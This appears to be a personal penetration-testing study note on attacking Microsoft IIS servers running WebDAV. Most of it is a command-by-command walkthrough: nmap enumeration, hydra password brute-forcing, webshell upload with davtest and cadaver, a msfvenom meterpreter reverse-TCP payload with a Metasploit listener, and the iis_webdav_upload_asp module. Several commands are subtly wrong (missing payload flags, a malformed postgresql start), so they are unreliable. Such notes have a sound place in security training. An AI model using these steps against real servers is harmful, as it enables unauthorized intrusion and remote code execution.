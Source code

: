 Related to [[Metasploit]] and [[Windows Vulnerabilities]]

Microsfoft IIs is a propierary extensible web server software developed by microsoft, its used to host webs and webapps.

Typically configured on port 80/443

WebDAV (Web based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allows users to collaborateively edit and manage files on remote web servers

The first step of exploitation involves identifying whether webDAV has been configured to run on an IIS server.
We can perform burteforce in order to obtain credentials.
Once we have credentials we can upload a malicious .asp file for RCE or RSSH

We will use davtest and cadaver

We can start using:

``` bash
nmap -sV -p 80 --script=http-enum [IP]
```

When we find the webdav directory we can use hydra for a bruteforce:

``` bash
hydra -L [username_file] -P [password_file] [IP/domain] [protocol (http-get)] [directory (/webdav/)]
```

Once we have a login we can use davtest:

``` bash
davtest -url [url_with_webdavdir] -auth [username]:[password]
```

Now we know which types of files we can upload so now we can use cadaver:

``` bash
cadaver http://[IP/domain]/[webdavdir]
```

It will ask us for auth, then we have a sudo shell for the webdav dir, we can use this for a webshell

We can check all available webshells with 

``` bash
ls -al /usr/share/webshells/
```

Check the correct file extension we can upload, then with cadaver use:

``` bash
put [webshell_path]
```

Then we should open it from the browser, where it may be an RCE box or  reverse shell

To list all dirs from a command box:

``` bash
dir C:\
```

To read files:

``` bash
type C:\[path]
```

---

### Using [[Metasploit]]

We can create a payload with msfvenom

``` bash
msfvenom windows/meterpreter/reverse_tcp LHOST=[lIP] LPORT=[lPort] -f [extension] > [outputfile]
```

Then we can use cadaver as usual to put the file, then we can configure our listener, first we open metasploit:

``` bash
sudo postgresql start && msfconsole
```

``` bash
use multi/handler
```

``` bash
set windows/meterpreter/reverse_tcp
```

Then we use the average options like LHOST and LPORT (same as msfvenom, ou listener machine)

Then we can use run, when we are listener we should go into our browser and open the uploaded backdoor.

#### Instead of all this we can also use a metasploit module

exploit/windows/iis/iis_webdav_upload_asp

PATH: (/webdav/metasploit%RAND%.as)

We need to provide the usual options like LHOSTS, LPORT, HttpAuths, RHOSTS, RPORT and payload.


---

### Cleanup:

From cadaver we can use delete to eliminate webshells and backdoors.